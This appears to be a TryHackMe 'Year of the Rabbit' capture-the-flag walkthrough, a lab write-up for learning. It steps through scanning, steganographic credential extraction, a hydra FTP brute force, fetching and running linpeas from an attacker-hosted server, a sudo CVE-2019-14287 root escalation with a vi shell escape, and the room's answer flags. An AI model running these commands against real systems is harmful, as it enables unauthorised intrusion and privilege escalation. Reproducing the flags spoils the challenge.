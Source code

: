 # Year of the Rabbit

## Overview

Time to enter the warren...

Room link: https://tryhackme.com/room/yearoftherabbit
Difficulty: **Easy**

## Walkthrough

Initiating a full port scan against the target, we see ports 21 (FTP), 22 (SSH), and 80 (HTTP) are open.

```console
$ nmap -p- -T4 <VICTIM_IP> -oN scans/initial_nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-02 10:38 GMT
Nmap scan report for <VICTIM_IP>
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 32.47 seconds
```

Running a full scan against these ports shows the host is running VSFTPd version `3.0.2` and Apache `2.4.10` on a Linux-based system:

```console
$ nmap -p 21,22,80 -A -T4 <VICTIM_IP> -oN scans/open_ports.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-02 10:39 GMT
Nmap scan report for <VICTIM_IP>
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (99%), Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 7.1.1 - 7.1.2 (93%), Linux 3.13 - 4.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.66 ms 10.9.0.1
2   30.50 ms <VICTIM_IP>

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
```

Navigating to the website shows the Apache2 default homepage:

![Year of the Rabbit - Default Apache](tryhackme/images/yotr_default_apache.png)

From a Gobuster scan, we see an `/assets` directory:

![Year of the Rabbit - Assets](tryhackme/images/yotr_assets.png)

From `styles.css`, we see a hidden comment for `sup3r_s3cr3t_fl4g.php`:

![Year of the Rabbit - Styles.css](tryhackme/images/yotr_styles_css.png)

Navigating to this site for the first time redirects us to the infamous Never Gonna Give You Up, with an alert on the site hinting that we should turn off JavaScript:

![Year of the Rabbit - Sup3r S3cret Fl4g](tryhackme/images/yotr_sup3r_s3cret_fl4g.png)

Instead of this, we can inspect the requests in BurpSuite which reveals hidden directory `/WExYY2Cv-qU`:

![Year of the Rabbit - Hidden Directory](tryhackme/images/yotr_hidden_directory.png)

Inspecting this directory shows a single `Hot_Babe.png` image file:

![Year of the Rabbit - Directory Contents](tryhackme/images/yotr_directory_contents.png)

Downloading the file and running `binwalk` identifies hidden data within the file, the `strings` output for which shows a list of credentials for the `ftpuser`:

```console
$ binwalk -e Hot_Babe.png
$ strings _
```

![Year of the Rabbit - Dictionary](tryhackme/images/yotr_dictionary.png)

Using `hydra` now with our dictionary, we can obtain the `ftpuser` user's password:

```console
$ hydra -l ftpuser -P ftp_pass.txt ftp://<VICTIM_IP> -t 30
```

![Year of the Rabbit - Hydra](tryhackme/images/yotr_hydra.png)

We can then successfully authenticate as `ftpuser`:

![Year of the Rabbit - Login Success](tryhackme/images/yotr_login_success.png)

Listing the files in the directory, we see a `Eli's Creds.txt` file:

![Year of the Rabbit - FTP Get](tryhackme/images/yotr_ftp_get.png)

Viewing the contents, this file turns out to be encoded using [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck), an esoteric programming language:

![Year of the Rabbit - Eli's Creds](tryhackme/images/yotr_eli_creds.png)

Using [dcode-fr - brainfuck](https://www.dcode.fr/brainfuck-language), we can decode this :

![Year of the Rabbit - Brainfuck](tryhackme/images/yotr_brainfuck.png)

Logging in via SSH:

![Year of the Rabbit - SSH Login](tryhackme/images/yotr_ssh_login.png)

Searching for this directory, we find it within `/usr/games/`:

```console
$ find / -name "s3cr3t" 2>/dev/null
```

![Year of the Rabbit - /usr/games/secret](tryhackme/images/yotr_usr_games_s3cr3t.png)

The file `.th1s_m3ss4g3_15_f0r_gw3nd0l1n3_0nly!` shows their credentials:

![Year of the Rabbit - Gwendoline Creds](tryhackme/images/yotr_gwendoline_creds.png)

Can now `su` to `gwendoline` and view the contents of `user.txt` within `/home/gwendoline`:

![Year of the Rabbit - user.txt](tryhackme/images/yotr_user_txt.png)

Running `sudo -l`, we see the following output:

![Year of the Rabbit - sudo -l](tryhackme/images/yotr_sudo_l.png)

This means we can run `/usr/bin/vi /home/gwendoline/user.txt` as any user other than `root`.

To enumerate the host further, we can download [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20231203-9cdcb38f0) to the host:

```
# Attacker machine
$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20231203-9cdcb38f/linpeas.sh
$ sudo python3 -m http.server 8080

# Victim machine
$ wget http://<ATTACKER_IP>:8080/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

From the results, we see an outdated version of `sudo`:

![Year of the Rabbit - Linpeas Sudo Version](tryhackme//images/yotr_linpeas_sudo.png)

Searching for exploits, we see a local privilege escalation vulnerability dubbed CVE-2019-14287. With this version of `sudo`, no check is made for the existence of a specified user ID, so it executes a given binary with arbitrary user ID and `sudo privileges`. It uses the arguments `-u#-1` which returns `0`, the `root` user's ID:

```console
$ sudo -l
...
	(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

This will open the `vi` text editor which can be escaped by typing `:!/bin/sh` which will launch a shell as `root`:

![Year of the Rabbit - Root flag](tryhackme/images/yotr_root_flag.png)

-----

1. What is the user flag?

```
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

2. What is the root flag?

```
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```